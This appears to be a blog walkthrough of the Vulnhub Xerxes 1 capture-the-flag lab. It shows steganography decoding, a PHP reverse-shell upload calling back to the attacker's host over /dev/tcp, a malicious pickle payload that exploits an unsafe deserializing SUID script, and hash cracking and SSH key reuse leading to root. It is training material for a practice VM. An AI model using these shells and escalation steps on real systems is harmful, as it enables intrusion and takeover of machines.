




# Xerxes Walkthrough

I'm a big fan of the [System Shock series](https://en.wikipedia.org/wiki/System_Shock) and am currently working my way through some of the best Vulnhub VMs. [Xerxes 1](https://www.vulnhub.com/entry/xerxes-1,58/) turned out to be really fun.

First, a quick scan of the new IP on my virtual network:

```sh
$ nmap 192.16.56.102
...
Nmap scan report for 192.168.56.102
Host is up (0.00024s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

A web server is open so we fire up the browser:



A default Apache configuration page; let's point `nikto` at it:

```sh
$ nikto -h 192.168.56.102
...
+ Entry '/dev/' in robots.txt retruned a non-forbidden or redirect HTTP code (200)
```



A basic upload form that looks like it could be vulnerable to quite a few things. But let's continue with recon and investigate the `forgot password?` page:



Hmm, a QR code. We can read them with a tool called `zbarimg`.

```sh
$ apt-get install zbar-tools
$ zbarimg lostpassword.png 
QR-Code:bG9vayBkZWVwZXI=
scanned 1 barcode symbols from 1 images in 0.02 seconds

$ echo bG9vayBkZWVwZXI= | base64 -d
look deeper
```

After an optimistic attempt to use `look deeper` as the password, I realised it's probably hinting that the QR code needs to be 'looked' at a bit more closely. But how?

Hex analysis and the `strings` command didn't reveal anything unexpected, but a visual inspection showed an unusual semi-transparent strip in the top-left corner.



Using Python's Imaging Library ([PIL](https://pillow.readthedocs.io/)) to print out RGB pixel information, I noticed that the alpha values changed from pixel to pixel for the first 48 pixels, with values in the range 48-122. In ASCII, 48 represents 0 (the lowest alphanumeric character) and 122 represents y (the highest alphanumeric character), so I isolated these values and converted them:

```python
>>> from PIL import Image
>>> im = Image.open("lostpassword.png").load()
>>> print(''.join([chr(im[i,0][3]) for i in range(48)]))
KysrKysrWz4rKysrKysrKzwtXT4rKysrLisuLS0tLS4tLi4=
```
```sh
$ echo KysrKysrWz4rKysrKysrKzwtXT4rKysrLisuLS0tLS4tLi4= | base64 -d
++++++[>++++++++<-]>++++.+.----.-..
```
Which seemed at first like some kind of cipher, but the characters jogged my memory in a different way. I had recently looked into the [JSFuck](http://www.jsfuck.com/) programming language, which uses only 6 characters. After a brief digression into esoteric programming languages, the code turned out not to be JSFuck but [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck). Decoding it gave the number `45100`, which was the password.

I attempted to upload a `msfvenom` payload, but the form complained about both the extension and the file size. So instead I used a tiny PHP reverse shell:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/6767 0>&1'");
```
I felt a bit stupid because this is what I should have done in the first place rather than reaching straight for metasploit. And it uploaded sucessfully - we were inside the server!

The first step is to spawn a better shell, before taking a look around:

```sh
$ nc -lvp 6767
www-data@xerxes:/var/www/dev/upload$ python -c 'import pty; pty.spawn("/bin/sh")'
$ ls /home
amanpour  curtiz  delacroix
$ ls /home/amanpour
lostpassword.png  newpassword  qr  steqr.py
```
We have access to `/home/amanpour` but not the other home directories. 

```sh
$ cd /home/amanpour
$ ls -la
total 44
drwxr-xr-x 3 amanpour amanpour 4096 Mar 10 20:34 .
drwxr-xr-x 5 root     root     4096 Dec 17  2013 ..
-rwxr--r-- 1 amanpour amanpour  270 Dec 19  2013 .bash_history
-rw-r--r-- 1 amanpour amanpour  220 Dec 17  2013 .bash_logout
-rw-r--r-- 1 amanpour amanpour 3433 Dec 19  2013 .bashrc
-rw-r--r-- 1 amanpour amanpour  675 Dec 17  2013 .profile
drwx------ 2 amanpour amanpour 4096 Dec 19  2013 .ssh
-rw-r--r-- 1 amanpour amanpour 1240 Dec 18  2013 lostpassword.png
-rw-r--r-- 1 amanpour amanpour 1220 Dec 18  2013 newpassword
-rw-r--r-- 1 amanpour amanpour 1071 Dec 17  2013 qr
-rw-r--r-- 1 amanpour amanpour 1235 Dec 18  2013 steqr.py
$ cat .bash_history
file qr
python steqr.py -f qr -s hehehehe
python steqr.py -f qr-enc.png
python steqr.py -f qr -s "KysrKysrWz4rKysrKysrKzwtXT4rKysrLisuLS0tLS4tLi4="
mv qr-enc.png lostpassword.png
python steqr.py -f lostpassword.png | base64 -d
python steqr.py -f newpassword
passwd
exit
```
Apparently, when `steqr.py` is passed the `-s` flag, the message is encrypted in the specified image, which can be obtained by running the program again without `-s`. The history shows the user repeating this process of encrypting messages then confirming that they have correctly been added to the QR code, until finally changing their password using the UNIX `passwd` utility. So we re-run the last decryption command:
```sh
$ python steqr.py -f newpassword
b56d9d8b6077fb56127d1c8ff84ece11
```
And get a password. It's an MD5 hash, however it's just `45100` hashed, and when we `ssh` the hash itself does the trick.

```sh
$ ssh amanpour@192.168.56.102
amanpour@192.168.56.102's password: 
Linux xerxes 3.2.0-4-486 #1 Debian 3.2.51-1 i686
...
amanpour@xerxes:~$ 
```
Now we are upgraded to a nice SSH prompt and a proper user account. Next step is to try some commands from the [g0tm1lk guide to Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/). I spot something after trying one that checks for files that run as their owner, not the user that started them:

```sh
amanpour@xerxes:~$ find / -perm -u=s -type f 2>/dev/null
...
/opt/notes
...
amanpour@xerxes:~$ cd /opt
amanpour@xerxes:/opt$ ls -al
total 20
...
-rwsr-s--x  1 curtiz notes 5111 Dec 18  2013 notes
-rwxr-x---  1 curtiz notes 1343 Dec 19  2013 notes.py
```
`notes.py`:

```py
#!/usr/bin/python

import pickle

notes = []
	
def save(filename):
	if len(filename) < 1:
		filename = "notes"
	f = open("/home/curtiz/" + filename, "wb")
	pickle.dump(notes, f)
	f.close()
	return 0

def load(filename):
	if len(filename) < 1:
		filename = "notes"
	f = open("/home/curtiz/" + filename, "rb")
	notes = pickle.load(f)
	f.close()
	return notes

def main():
	global notes
	print ""
	print "-------------------------------"
	print " Welcome to Juan's to-do list! "
	print "   type help for more info     "
	print "-------------------------------"
	
	while True:
		raw_cmd = raw_input()
		cmd = raw_cmd.split()
		if (len(cmd) > 0):
			if "help" == cmd[0]:
				print " Available commands:"
				print "   - add  [note] : add a note for Juan"
				print "   - show        : show to-do list"
				print "   - save [file] : save to-do list"
				print "   - load [file] : load to-do list"
				print "   - quit        : exit"
				print ""

			if "add" == cmd[0]:
				#print "add"
				notes.append(" - " + raw_cmd[4:])

			if "save" == cmd[0]:
				#print "save"
				save(raw_cmd[5:])

			if "load" == cmd[0]:
				#print "load"
				notes = load(raw_cmd[5:])

			if "show" == cmd[0]:
				#print "show"
				for note in notes:
					print note

			if "quit" == cmd[0] or "exit" == cmd[0]:
				return 0
	return 0

if __name__ == "__main__":
	main()
```

It's a very simple Python program. The line `notes = load(raw_cmd[5:])` caught my eye - `raw_cmd` is the user input, minus the specified command, and when we follow this up and see the load function above, we note that it takes a user-specified file and unpickles it via `pickle.load`.

Pickle deserializes objects in Python directly into the runtime environment, and for this reason it must never be trusted to unpickle user-supplied data. Combine this with the fact this executable runs as a different user, and we can easily escalate privileges.

I grab the `canonical.pickle` Pickle shellcode from [this helpful page](https://www.cs.uic.edu/~s/musings/pickle/) which explains the vulnerability, scp it over to `/tmp`, and become curtiz:

```sh
amanpour@xerxes:/opt$ cat /tmp/canonical.pickle
cos
system
(S'/bin/sh'
tR.
amanpour@xerxes:/opt$ ./notes.py
-------------------------------
 Welcome to Juan's to-do list! 
   type help for more info     
-------------------------------
load ../../tmp/canonical.pickle
$ whoami
curtiz
$ cd /home/curtiz
$ ls
id_rsa	notes  notes.bak
$ cat notes
(lp0
S" - I've found Marie's keyfile and was able to login via ssh,"
p1
aS' - but it seems she has added another layer of protection...'
p2
a.$ 
```

So in curtiz's folder there is Marie's ssh key. Marie must be the Delacroix user (after the [System Shock 2 character](http://shodan.wikia.com/wiki/Marie_Delacroix), and also by simple process of elimination). Let's see what this extra 'layer of protection' is.

First I copy and paste `id_rsa` onto my own machine and attempt login:
```sh
ssh delacroix@192.168.56.102 -i id_rsa
Linux xerxes 3.2.0-4-486 #1 Debian 3.2.51-1 i686
...
Password: 
```
An additional password prompt that occurs after ssh authentication. I try to bypass this a number of ways:
```sh
ssh delacroix@192.168.56.102 -i id_rsa -t bash --noprofile
ssh delacroix@192.168.56.102 -i id_rsa -t bash --noprofile --norc
ssh delacroix@192.168.56.102 -i id_rsa -t "() { :; }; /bin/bash"
```
Well, if this password prompt isn't in `.bash_profile`, isn't in `.bashrc`, and even Shellshock doesn't work on a CTF from 2013, the `delacroix` user must be using a custom shell. A quick search confirmed it isn't possible to change the shell you ssh into.

Back in our curtiz ssh session, we look for alternate shells:

```sh
$ cat /etc/shells
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/bin/delacroix
```

Spot the odd one out! `strings` is always the first port of call to navigate binaries and potentially find hardcoded credentials:

```sh
$ strings /bin/delacroix
...
%02x
3d054afb77714ca938d8bca104fcb141
/bin/bash
Password: 
;*2$"
```

Looks like another MD5 hash... putting it in an online hashcracker produces the password `VonBraun`, which works in the ssh prompt. Logging in we are presented with an interesting message:

```sh
Password: VonBraun
XERXES checking security...
Your password has expired. Please generate a new one.
  XERXES wishes you
     a nice day
```
I'm getting flashbacks to the onboard computer system of System Shock 2 going wild as I run around shooting zombie-like infected crew. The message appears to have been caused by the `check.sh` script:
```sh
delacroix@xerxes:/home/delacroix$ ls
check.sh  generate.sh
delacroix@xerxes:/home/delacroix$ cat check.sh 
#!/bin/sh
echo "XERXES checking security..."
LAST=$(ls -alh | grep last | awk '{print $6,$7,$8}')
LAST_SEC=$(date -d "$LAST" "+%s")
DATE_SEC=$(date "+%s")
DIFF=$(expr $DATE_SEC - $LAST_SEC)
if [ "$DIFF" -gt "86400" ] ; then
	echo "Your password has expired. Please generate a new one."
	echo "  XERXES wishes you"
	echo "     a nice day"
fi
```
So, the script gets a date in the format "Dec 31 2014" (the 6th, 7th, and 8th columns of `ls -alh`), which was the last modification time of files containing the word `last`, converts it to UNIX seconds and compares it to the current time. If it's greater than one day ago then complain. That's not so useful, so how about `generate.sh`:
```sh
#!/bin/sh
touch .last && p=$(date | awk '{print $4}' | md5sum | awk '{print $1}')
echo "XERXES has generated a new password: $p"
echo "  XERXES is forever"
echo "   at your service"
```
The fourth column of the `date` command is of the format 15:36:19, so the new MD5 summed password is a function of daily time and can be found in the `.last` file metadata.

```sh
delacroix@xerxes:/home/delacroix$ ls --full-time .last
-rw-r--r-- 1 delacroix delacroix 0 2013-12-19 00:19:51.024911360 -0800 .last
```

`.last` was created at 00:19:51. In the meantime I learned that ext4 stores time down to the nanosecond, which is amazing.

```sh
delacroix@xerxes:/home/delacroix$ echo 00:19:51 | md5sum
6cf49e97c915079e27c09d41da9d95e4  -
delacroix@xerxes:/home/delacroix$ sudo su
[sudo] password for delacroix: 
root@xerxes:/home/delacroix# cd /root
root@xerxes:~# cat flag
...
root@xerxes:~# file flag
flag: PNG image data, 250 x 269, 8-bit/color RGB, non-interlaced
```
The flag file was actually an image, so I download it:


Nice one! All in all an enjoyable CTF with a great theme. However, it did seem to get easier and easier.
